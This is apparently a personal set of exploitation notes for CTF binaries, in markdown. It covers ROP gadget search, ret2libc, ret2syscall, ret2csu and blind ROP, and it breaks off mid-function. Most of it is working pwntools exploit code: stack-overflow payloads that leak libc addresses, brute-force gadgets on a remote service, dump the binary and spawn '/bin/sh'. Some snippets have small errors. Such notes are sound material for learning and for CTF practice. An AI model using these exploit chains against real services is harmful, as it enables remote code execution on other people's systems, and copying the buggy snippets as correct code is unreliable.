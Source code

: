 
### in progress


# ROP
# how to find Gadgets (Ropper)

<details>
    <summary>Ropper</summary>
        <div>


read the docs!
https://github.com/sashs/Ropper

Ropper is a tool that can display information about binary files in different file formats and can search for gadgets to build rop chains for different architectures (x86/X86_64, ARM/ARM64, MIPS/MIPS64, PowerPC/PowerPC64, SPARC64).

most usefull commands imo.

`(ropper) file vuln_binary` loads the specified binary into cache and analyze it than cleans up double gadgets. \
`(ropper) search /1/ pop r??` /1/ = search for gadgets with max 1 instruction + ret  \
? means non specific char so this will search for `pop rax`&`pop rdi`&`pop rsi` and so on \
`(ropper) semantic eax==1 !ebx` searches for a gadget that set eax to 1 and does not clobber ebx

</div>
</details>

		
# find Strings in an ELF	
<details>
    <summary>strings</summary>
        <div>
		
searching manually   \
`strings -t x -a /path/to/binary | grep "string you searching"`

</div>
</details>
		
<details>
    <summary>pwntools</summary>
        <div>

in python script
```
binary = ELF('/path/to/binary')
stringaddr = next(binary.search(b'string you searching'))
```
</div>
</details>

# how to pivote the Stack
in progress
# ret2techniques
	
<details>
    <summary>ret2libc (dynamically linked ELF)</summary>
        <div>

# ret2libc (dynamically linked ELF)
to use ret2libc we need to know two things
	
1. the exact libc version the ELF uses
2. the base addr of libc in the process
		

to find the exact version of libc we can leak some GOT entrys which stores pointers to the functions in libc. 
(we also need this for finding the base of libc in the process)

since we have the ELF file we can do this with ease as the GOT and PLT sections are known to us (asuming PIE is off)
```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to the addr of puts@GOT
payload += p64(puts@GOT)		#addr puts@GOT
payload += p64(puts@PLT)		#call puts@PLT(puts@GOT)
```

this payload will print the libc addr of puts() in the current process.
puts_leak = `leaked addr here`

ok now ne know the exact addr of puts() in libc but we still dont know which libc version is used.
we will use a libc database like https://libc.blukat.me/ to find the exact version
libc.blukat will find the libc based of the last 3 nibbles of the leaked addr since these will always be the same 
		
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/libc_blukat.png">

usually you need to leak more than one libc function addr or the addr of a known string such as "/bin/sh" to find the exact libc version.

ok we now know the exact libc version now we can download the libc and calculate the offset from puts() to the base addr of libc in the process
use `vmmap` to find the libc base

```
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000402000 0x0000000000403000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000403000 0x0000000000404000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000405000 0x0000000000426000 0x0000000000000000 rw- [heap]
0x00007ffff7dbc000 0x00007ffff7de1000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7de1000 0x00007ffff7f59000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7f59000 0x00007ffff7fa3000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa3000 0x00007ffff7fa4000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa4000 0x00007ffff7fa7000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa7000 0x00007ffff7faa000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7faa000 0x00007ffff7fb0000 0x0000000000000000 rw- 
0x00007ffff7fc9000 0x00007ffff7fcd000 0x0000000000000000 r-- [vvar]
0x00007ffff7fcd000 0x00007ffff7fcf000 0x0000000000000000 r-x [vdso]
0x00007ffff7fcf000 0x00007ffff7fd0000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd0000 0x00007ffff7ff3000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

```

know_libc_base = `libc base here`		

offset = puts_leak - known_libc_base 		known_libc_base as it will change next time the ELF file is run (ASLR)
libc_base = puts_leak - offset

ok we now know the libc version and the exact libc_base inside the current process.
now we can use libc functions such as system("/bin/sh") we can setup the args and than simply call it from libc

1. setup the argument for system(pointer_binsh) 
2. call the libc function system()

```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to /bin/sh pointer
payload += p64(pointer_binsh)		#addr of /bin/sh\x00 in mem
payload += p64(system)			#call the libc system function
```

</div>
</details>

<details>
    <summary>ret2system (statically linked ELF)</summary>
        <div>


# ret2system (statically linked ELF)
`syscall(rax,rdi,rsi,rdx)`	
we want to call `execve(pointer_binsh,0,0)` to spawn a shell

so we need to setup a `syscall(execve(pointer_binsh,0,0))`
		
1. find the syscall number for execve
2. find a gadget that can write to a pointer like `mov [rdi],rdx`
3. write b'/bin/sh\x00' to a writable addr.
4. setup the registers and than syscall

syscall numbers `https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit	`
we know the syscall number is 0x3b so we want to call `syscall(0x3b,pointer_binsh,0,0)`
we need a gadget that can write to a pointer to write `/bin/sh\x00` string somewhere
we can find such a gadget by using `ropper`

```
ropper /1/ mov [r??],r??
```		
i choose `mov [rdi],rdx` ... somethink like `mov [rax],rdx` would worked too.
since we have to set rdi = pointer_binsh and `mov [rdi],rdx` directly writes to rdi we saved some gadgets.
when using `mov [rax],rdx` we have to `mov rdi,rax` afterwards.


```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rax)			#set rax to 0x3b
payload += p64(0x3b)
payload += p64(pop_rdi)			#set rdi to a .bss addr .bss is usually `rw-`
payload += p64(.bss)			#addr where we want to write to
payload += p64(pop_rdx)			#set rdx to `/bin/sh\x00`
payload += b`/bin/sh\x00`		#be carefull when you set this allways keep the 0x8 byte pad in mind e.g. when you want to call execve with `/bin/cat\x00`
payload += p64(write_gadget)		#writes the content of rdx = `/bin/sh\x00` into the addr rdi = `.bss` points to
payload += p64(pop_rsi)			#set rsi to 0
payload += p64(0x00)
payload += p64(pop_rdx)			#set rdx to 0
payload += p64(0x00)
payload += p64(syscall)				
```


</div>
</details>

<details>
    <summary>ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)</summary>
        <div>
		
# ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)

the `__libc_csu_init` function is responsible to initialize libc files.
in this function there are some interesting gadgets we can use.

first gadget let us controll some registers with pop

POPGADGET:
his will let us controllrbx,rbp,r12,r13,r14,r15
```
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```

CALLGADGET:
this will let us controll rdx,rsi and edi but we need to meet some conditions 
```         
__libc_csu_init+64	MOV        RDX,R14
__libc_csu_init+67 	MOV        RSI,R13
__libc_csu_init+70 	MOV        EDI,R12D
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
__libc_csu_init+86	ADD        RSP,0x8
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
__libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```


there ase some constrains in the caller gadget 
1.
we want to pass the JNE and dont take it.
```
rbx = 0x00 set to 0 since it will be incremented later
rbp = set to 1 so when compared to the incremented rbx 
```

```
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
       	 	
```
2.
we want to set r15 = to a valide function pointer rbx will be 0x00
```
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
```


```
putsgot = elf.got['puts']          
putsplt = elf.plt['puts']
pop_rdi = 0x00000000004011f3
pop_rsi_r15 = 0x00000000004011f1
ret = 0x4004e6

def ret2csu(call,rdi,rsi,rdx):
    payload = p64(0x4011ea)         # first call popper gadget

    payload += p64(0x00)            # pop rbx - set to 0 since it will be incremented later
    payload += p64(0x01)            # pop rbp - set to 1 so when compared to the incremented rbx 
    payload += p64(0x400000)       # pop r12 #edi only 4 bytes controll
    payload += p64(rsi)            # pop r13 #rsi
    payload += p64(rdx)            # pop r14 #rdx
    payload += p64(putsgot)            # pop r15 

    payload += p64(0x4011d0)        # 2nd call caller gadget

        #__libc_csu_init+64     MOV        RDX,R14
        #__libc_csu_init+67     MOV        RSI,R13
        #__libc_csu_init+70     MOV        EDI,R12D

    payload += p64(0x00)            # add rsp,0x8 padding cause __libc_csu_init+86  ADD RSP,0x8 


        #__libc_csu_init+90     POP        RBX
        #__libc_csu_init+91     POP        RBP
        #__libc_csu_init+92     POP        R12
        #__libc_csu_init+94     POP        R13
        #__libc_csu_init+96     POP        R14
        #__libc_csu_init+98     POP        R15
        #__libc_csu_init+100    RET

    payload += p64(0x00)            # rbx
    payload += p64(0x00)            # rbp
    payload += p64(0x00)            # r12
    payload += p64(0x00)            # r13
    payload += p64(0x00)            # r14
    payload += p64(0x00)            # r15

        #__libc_csu_init+100    RET

    payload += p64(pop_rdi)        
    payload += p64(rdi)             # update rdi with correct unconstrained content
    payload += p64(pop_rsi_r15)     
    payload += p64(rsi)             # update rsi with correct unconstrained content
    payload += p64(0x00)

        #we now have this registers under controll rdi,rsi,rdx,rbx,rbp,r12,r13,r14,r15

    payload += p64(call)            # actual wanted function call
    return payload

    rop = b'A'*16
    rop += ret2csu(putsplt, 0x7ffff7f735aa, 0x00, 0x00) # call(rdi,rsi,rdx)

```

For de-randomizing libc, we can use &GOT_TABLE, coupled with some read(), write() or send(), recv() (ie: usually available in CTF challenges)

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2csu_gadgets.png">
		
</div>
</details>

# Blind Return Oriented Programming






<details>
    <summary>BROP (dont have the binary // PIE off // puts() in binary)</summary>
        <div>

# BROP (dont have the binary // PIE off // puts() in binary)
		
Steps of Exploitation:

Puts/Printf() when fd is 0,1,2 stdin,stdout,stderror
1. find a loop-gadget
2. find brop-gadget (the ret2csu popper-gadget // rdi & rsi controll)
3. find puts@plt
4. leak the binary


### find loop-gadget
the example binary prints `Are you blind my friend?\n` and than asks us for input
so we know that when we find the right addr there should be a `Are you blind my friend?\n` printed back to us and we should be able to input again


```
def find_loop_gadget(i):
    
    r = remote(ip, port,timeout=1)
    
    addr_guess = i + 0x400200                         #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers
        
    payload = b'A'*88                                 #pad
    payload += p64(addr_guess)                        #rip

    r.readuntil(b'Are you blind my friend?\n')        #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)


    try:
        check = r.recvline()                          #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:    #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr
            return int(addr_guess)              
        else:
            print(check)                              #if we recv something that is not 'Are you blind my friend?\n' we print to check what it was
            print(r.recvline())                       #than try to read more that should throw an EOF error if not inspect further
            r.close()
    except:
        print(sys.exc_info()[0])                      #prints the error
        print(i)                                      #prints the iterator
        r.close()


for i in range(0x2000):                               #loop  0x400200 -> 0x402200   
    loop = find_loop_gadget(i)                  
    if loop:                            
        print(f'found loop_gadget @ {hex(loop)}')
        break                                         #remove this break if you want to find more potential loop addr.
```



### find brop-gadget

ok we now have a loop-gadget now we need to find a brop-gadget (popper gadget from ret2csu)
6 pops in a row are pretty uncommon so its not hard to indentify it.


```
def find_brop_gadget(i):


    r = remote(ip, port,timeout=1)

    addr_guess = i + 0x400200                          #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers

    payload = b'A'*88                                  #pad
    payload += p64(addr_guess)                         #rip 
    payload += p64(0x00)                               #setup stack
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(loop)                               #loop back to main

    r.recvuntil(b'Are you blind my friend?\n')         #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)

    try:
        check = r.recvline()                           #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:     #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr since our 6 pops goes throu
                                                       #2nd check if we are on the right gadget this time we want a crash
                p = remote(ip,port,timeout=1)

                payload = b'A'*88                      #pad
                payload += p64(addr_guess)             #rip
                payload += p64(0x00)                   #setup stack
                payload += p64(0x00)    
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)                   # one extra 0x00 to crash. ret to 0x00 is allways a crash  
                payload += p64(loop)                   # if it still prints 'Are you blind my friend?\n' its the wrong guess addr
        
                p.recvuntil(b'Are you blind my friend?\n')     #read the first (intendet) "Are you blind my friend?\n" 
                p.send(payload)                 
                
                try:
                    check2 = p.recvline()              #try to read a line if we can read a line we are on the wrong addr guess #we should crash here
                    if check2:                         #if we can recv something addr guess are wrong
                    print('not passed check2')
                    p.close()
                    r.close()

                except:                                #we want a crash so if we crash were good
                    r.close()
                    p.close()
                    return addr_guess

        else:                                          #if we can recv something on the initial check but its not "Are you blind my friend?\n" or we hang
                r.close()                              #close connection
    except:                                            #if we crash during first payload wrong guess addr
        print(sys.exc_info()[0])
        r.close()


for i in range(0x2000):                                #loop  0x400200 -> 0x402200 
    brop = find_brop_gadget(i)
    if brop:
        print(f'found brop_gadget @ {hex(brop)}')
        break                                          #remove this break if you want to find more potential brop-gadget addr.
    

pop_rdi = int(brop) + 0x9                              #we need this later 
pop_rsi_r15 = int(brop) + 0x7                          #we need this later

```
### find puts-gadget



```
def find_puts(i):                        #puts@plt


    r = remote(ip, port,timeout=1)
                                                #iterate in steps of 0x10
    addr_guess = i*0x10 + 0x400200              #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers 



            #this is the plt layout we want to find
            # 0x0000000000400560  puts@plt
            # 0x0000000000400570  setbuf@plt
            # 0x0000000000400580  read@plt
            # 0x0000000000400590  __libc_start_main@plt
            # 0x00000000004005a0  strcmp@plt


    payload = b'A'*88                           #pad
    payload += p64(pop_rdi)                     #first argument for # int puts( char const * string ); puts(rdi) 
    payload += p64(0x400000)                    #points to 0x400000 which should print out 'ELF'
    payload += p64(addr_guess)                  #the addr guess for puts@plt

    r.recvuntil('Are you blind my friend?\n')   #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)
    


    try:
        check = r.recvline()                    #trys to recv if cant recv anything EOF error
        if b'ELF' in check:                     #if the str 'ELF' is in the check we found a potential puts@plt addr.
            r.close()
            return addr_guess
        else:
            print(check)                        #debugging if something weard was printed
    except:
        print(sys.exc_info()[0])                #printes the error
        print(i)                                #prints the iterator
        r.close()

for i in range(0x50):                           # loop 0x400200 -> 0x400700  ## 0x400200 + 0x50*0x10 = 0x400200 + 0x500 = 0x400700
    puts = find_puts(i)
    if puts:
        print(f'found puts @ {hex(puts)}')
        break                                   #remove this break if you want to find more potential puts@plt addr.
```

### leak the process with puts()
```
def leak_binary_puts(i,j):


    r = remote(ip, port,timeout=1)
    
    x = i + j

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(x)
    payload += p64(puts)

    r.recvline()                                         #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)



    try:
        check = r.recvline()                            #trys to recv the leak if nothin is recv inc offset by 1 and continue
        if check:
            if check.hex()[:-2] == '':                  
                file.append(b'\x00')
                r.close()
                return int(offset) + 1

            else:
                file.append(check[:-1])                 #append leak without \n
                last_len = int(len(check)-1)            #calculate len of leaked bytes
                r.close()
                return int(offset) + int(last_len)      #increase the offset by leaked num of bytes     
            
        else:
            r.close()
    except:                                             #inc offset by 1 and continue
        print(sys.exc_info()[0])
        r.close()
        return int(offset + 1)

file = []
last_len = 0
offset = 0

for i in range(0xb00):                      
    offset = leak_binary_puts(offset,0x400000)
    print(offset)
    print(f'{hex(i)}')


string1 = b''.join(file)

with open('binary_dump', 'wb') as out:
    out.write(string1)
    out.close()

```
find the libc verion with https://libc.blukat.me/

```           

def leak(i):        #simple leak function to find all GOT entrys this will print the addr and content of 0x601000 -> 0x601080 in steps of 0x8


    r = remote(ip, port,timeout=1)
    

    payload = b'A'*88                                                   
    payload += p64(pop_rdi)
    payload += p64(i)
    payload += p64(puts)

    r.recvline()                                        #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)

    leak = unpack(r.recvline()[:-1],'all')
    return leak


libc = ELF(/path/to/libc)                               #we want to guess a libc and if we guess right it should have the same last 3 nibbles 

puts_check = hex(libc.symbols['puts'])[-2::]

for i in range(0x10):                                   #loop 0x601000 -> 0x601080
    check = leak(0x601000+i*8)                          #GOT usually starts somewhere here 0x601000
    print(f'{hex(0x601000+i*8)} : {hex(check)}')
    if hex(check)[12:] == puts_check:
        putsgot = (i*8+0x601000)
        print(f'puts_got @ {hex(putsgot)}')
        break


```

and bringing it all together we can pop a shell

```
def pwn():

    #context.log_level = 'debug'

    r = remote(ip, port,timeout=1) 

    pop_rdi = int(brop) + 0x9
    ret = int(brop) + 10

    payload = b'A'*88                               #leak libc_base
    payload += p64(pop_rdi)
    payload += p64(putsgot)
    payload += p64(puts)
    payload += p64(loop)                            #loop back to main
 

    r.recvuntill('Are you blind my friend?\n')      #read the 1st (intendet) "Are you blind my friend?\n"
    r.send(payload)


    leak = unpack(r.recvline()[:-1],'all')          #leak puts
    print(hex(leak))
    libc.address = leak - libc.symbols['puts']      #sets libc base

    print(hex(libc.address))

    r.recvuntil('Are you blind my friend?\n')       #read the (loop) "Are you blind my friend?\n"

    binsh = next(libc.search(b'/bin/sh\x00'))       #ret2libc
    system = libc.symbols['system']

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(binsh)
    payload += p64(system)

    r.send(payload)

    inter()
```



</div>
</details>


<details>
    <summary>BROP (dont have the binary // PIE off // puts() not in binary)</summary>
        <div>

# BROP (dont have the binary // PIE off // puts() not in binary)		
		
1. find a loop-gadget
2. find brop-gadget (the ret2csu popper-gadget // rdi & rsi controll)
3. find strcmp@PLT (strcmp sets rdx)
4. find write@PLT (let us write to any fd)
5. leak the binary

### find loop-gadget
the example binary prints `Are you blind my friend?\n` and than asks us for input
so we know that when we find the right addr there should be a `Are you blind my friend?\n` printed back to us and we should be able to input again


```
def find_loop_gadget(i):
    
    r = remote(ip, port,timeout=1)
    
    addr_guess = i + 0x400200                         #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers
        
    payload = b'A'*88                                 #pad
    payload += p64(addr_guess)                        #rip

    r.readuntil(b'Are you blind my friend?\n')        #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)


    try:
        check = r.recvline()                          #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:    #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr
            return int(addr_guess)              
        else:
            print(check)                              #if we recv something that is not 'Are you blind my friend?\n' we print to check what it was
            print(r.recvline())                       #than try to read more that should throw an EOF error if not inspect further
            r.close()
    except:
        print(sys.exc_info()[0])                      #prints the error
        print(i)                                      #prints the iterator
        r.close()


for i in range(0x2000):                               #loop  0x400200 -> 0x402200   
    loop = find_loop_gadget(i)                  
    if loop:                            
        print(f'found loop_gadget @ {hex(loop)}')
        break                                         #remove this break if you want to find more potential loop addr.
```



### find brop-gadget

ok we now have a loop-gadget now we need to find a brop-gadget (popper gadget from ret2csu)
6 pops in a row are pretty uncommon so its not hard to indentify it.


```
def find_brop_gadget(i):


    r = remote(ip, port,timeout=1)

    addr_guess = i + 0x400200                          #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers

    payload = b'A'*88                                  #pad
    payload += p64(addr_guess)                         #rip 
    payload += p64(0x00)                               #setup stack
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(loop)                               #loop back to main

    r.recvuntil(b'Are you blind my friend?\n')         #read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)

    try:
        check = r.recvline()                           #trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:     #if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr since our 6 pops goes throu
                                                       #2nd check if we are on the right gadget this time we want a crash
                p = remote(ip,port,timeout=1)

                payload = b'A'*88                      #pad
                payload += p64(addr_guess)             #rip
                payload += p64(0x00)                   #setup stack
                payload += p64(0x00)    
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)                   # one extra 0x00 to crash. ret to 0x00 is allways a crash  
                payload += p64(loop)                   # if it still prints 'Are you blind my friend?\n' its the wrong guess addr
        
                p.recvuntil(b'Are you blind my friend?\n')     #read the first (intendet) "Are you blind my friend?\n" 
                p.send(payload)                 
                
                try:
                    check2 = p.recvline()              #try to read a line if we can read a line we are on the wrong addr guess #we should crash here
                    if check2:                         #if we can recv something addr guess are wrong
                    print('not passed check2')
                    p.close()
                    r.close()

                except:                                #we want a crash so if we crash were good
                    r.close()
                    p.close()
                    return addr_guess

        else:                                          #if we can recv something on the initial check but its not "Are you blind my friend?\n" or we hang
                r.close()                              #close connection
    except:                                            #if we crash during first payload wrong guess addr
        print(sys.exc_info()[0])
        r.close()


for i in range(0x2000):                                #loop  0x400200 -> 0x402200 
    brop = find_brop_gadget(i)
    if brop:
        print(f'found brop_gadget @ {hex(brop)}')
        break                                          #remove this break if you want to find more potential brop-gadget addr.
    

pop_rdi = int(brop) + 0x9                              #we need this later 
pop_rsi_r15 = int(brop) + 0x7                          #we need this later

```

```
def find_strcmp(i):
    
    r = remote(ip, port,timeout=1)
                                                #iterate in steps of 0x10 same as finding puts
    addr_guess = i*0x10 + 0x400200                    #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers

    payload = b'A'*88                           #pad
    payload += p64(pop_rdi)                     #pop 1st argument for # int strcmp (const char* str1, const char* str2); strcmp(rdi,rsi)
    payload += p64(0x400000)                    #holds valide pointer to 'ELF'          GOOD
    payload += p64(pop_rsi_r15)                 #pop 2nd argument   
    payload += p64(0x400000)                    #holds valide pointer to 'ELF'          GOOD
    payload += p64(0x00)                        #junk to fill r15
    payload += p64(addr_guess)                  #the addr guess for strcmp@plt
    payload += p64(loop)                        #loop back to main if check for GOOD:GOOD pointers work 
    r.recvuntil('Are you blind my friend?\n')   #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)
    

    try:
        check = r.recvline()                                            #trys to recv if cant recv anything EOF error
        if b'Are you blind my friend?\n' in check:                      #if we can find 'Are you blind my friend?\n' we passed check1 
            r.close()
            print('\n1st check passed good:good')
            
            print(f'2nd check for {hex(addr_guess)} good:bad')
            p = remote(ip,port,timeout=1)

            payload = b'A'*88                                           #same as above but with GOOD:BAD pointers that should crash
            payload += p64(pop_rdi) 
            payload += p64(0x400000)                                    #holds valide pointer to 'ELF'          GOOD
            payload += p64(pop_rsi_r15)
            payload += p64(0x0)                                         #holds invalide pointer to 0x00         BAD
            payload += p64(0x0)
            payload += p64(addr_guess)
            payload += p64(loop)        
            p.readuntil('Are you blind my friend?\n')
            p.send(payload)
                
            try:
                check2 = p.recvline()

                if check2: 
                    print('not passed check2')
                    p.close()
                else:
                    print('not passed check2')
                    p.close()

            except:
                r.close()
                p.close()
                print(f'3nd check for {hex(addr_guess)} bad:good')
                p = remote(ip,port,timeout=1)

                payload = b'A'*88                                       #same as above but with BAD:GOOD pointers that should crash    
                payload += p64(pop_rdi)
                payload += p64(0x0)                                     #holds invalide pointer to 0x00         BAD
                payload += p64(pop_rsi_r15)
                payload += p64(0x400000)                                #holds valide pointer to 'ELF'          GOOD
                payload += p64(0x0)
                payload += p64(addr_guess)
                payload += p64(loop)         
                p.readuntil('Are you blind my friend?\n')
                p.send(payload)

                try:
                    check3 = p.recvline()

                    if check3: 
                        print('not passed check3')
                        p.close()
                    else:
                        print('not passed check3')
                        p.close()

                except:
                    p.close()
                    print(f'4rd check for {hex(addr_guess)} bad:bad')
                    p = remote(ip,port,timeout=1)

                    payload = b'A'*88                                   #same as above but with BAD:BAD pointers that should crash
                    payload += p64(pop_rdi) 
                    payload += p64(0x0)                                 #holds invalide pointer to 0x00         BAD
                    payload += p64(pop_rsi_r15)
                    payload += p64(0x0)                                 #holds invalide pointer to 0x00         BAD
                    payload += p64(0x0)             
                    payload += p64(addr_guess)
                    payload += p64(loop)         
                    p.readuntil('Are you blind my friend?\n')
                    p.send(payload)
                    try:
                        check4 = p.recvline()

                        if check4: 
                            print('not passed check4')
                            p.close()

                        else:
                            print('not passed check4')
                            p.close()


                    except:
                        p.close()
                        print(sys.exc_info()[0])
                        return addr_guess                               #if all checks were good we return the guess_addr

        else:
            r.close()
    except:
        print(sys.exc_info()[0])
        print(hex(addr_guess))
        r.close()


for i in range(0x50):                                                   # loop 0x400200 -> 0x400700  ## 0x400200 + 0x50*0x10 = 0x400200 + 0x500 = 0x400700
        strcmp = find_strcmp(i)
        if strcmp:
            print(f'found strcmp @ {hex(strcmp)}')
            break                                                       #remove this break if you want to find more potential strcmp@plt addr.

 ```

 ```
def find_write()                                #ssize_t write(int fd, const void *buf, size_t count); write(rdi,rsi,rdx)

    r = remote(ip, port,timeout=1)  


    pop_rdi = int(brop) + 0x9                    
    pop_rsi_r15 = int(brop) + 0x7


                                                #iterate in steps of 0x10
    addr_guess = i*0x10 + 0x400200              #we know PIE is off // cause x64 binarys start here = 0x400000 + 0x200 for headers 

    payload = b'A'*88                           #pad
    payload += p64(pop_rdi)                     #int strcmp (const char* str1, const char* str2) strcmp(rdi,rsi)
    payload += p64(0x400000)                    #rdi points to 0x400000 which should hold 'ELF'
    payload += p64(pop_rsi_r15)
    payload += p64(0x400000)                    #rsi points to 0x400000 which should hold 'ELF'
    payload += p64(0x00)                        #junk r15
    payload += p64(strcmp)                      #sets rdx to != 0x00
    payload += p64(pop_rdi)
    payload += p64(0x01)                        #fd for write usually 0x01 but when we connect throu a socket maybe differ
    payload += p64(addr_guess)
                                                


    r.recvuntil('Are you blind my friend?\n')   #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)
    


    try:
        check = r.recvline()                    #trys to recv if cant recv anything EOF error
        if b'ELF' in check:                     #if the str 'ELF' is in the check we found a potential write@plt addr.
            r.close()
            return addr_guess
        else:
            print(check)                        #debugging if something weard was printed
    except:
        print(sys.exc_info()[0])                #printes the error
        print(i)                                #prints the iterator
        r.close()

for i in range(0x50):                           # loop 0x400200 -> 0x400700  ## 0x400200 + 0x50*0x10 = 0x400200 + 0x500 = 0x400700
    write = find_write(i)
    if write:
        print(f'found write @ {hex(write)}')
        break                                   #remove this break if you want to find more potential write@plt addr.
 ```

 
### leak the process with write()
		
```
def leak_binary_write(i,j):

    pop_rdi = int(brop) + 0x9                    
    pop_rsi_r15 = int(brop) + 0x7

    r = remote(ip, port,timeout=1)
    
    x = i + j

    payload = b'A'*88                                   #pad
    payload += p64(pop_rdi)                             #int strcmp (const char* str1, const char* str2) strcmp(rdi,rsi)
    payload += p64(0x400000)                            #rdi points to 0x400000 which should hold '0x00010102464c457f'
    payload += p64(pop_rsi_r15)
    payload += p64(0x400001)                            #rsi points to 0x400001 which should hold '0x0000010102464c45'
    payload += p64(0x00)                                #junk r15
    payload += p64(strcmp)                              #sets rdx to 0x7f

    payload += p64(pop_rdi)
    payload += p64(0x01)                                #fd for write usually 0x01 but when we connect throu a socket maybe differ
    payload += p64(pop_rsi_r15)
    payload += p64(x)                                   #addr to leak
    payload += p64(0x00)                                #junk r15   
    payload += p64(addr_guess)                          #ssize_t write(int fd, const void *buf, size_t count); write(rdi,rsi,rdx)

    r.recvline()                                        #read the first (intendet) "Are you blind my friend?\n"
    r.send(payload)



    try:
        check = r.recvline()                            
        if check:
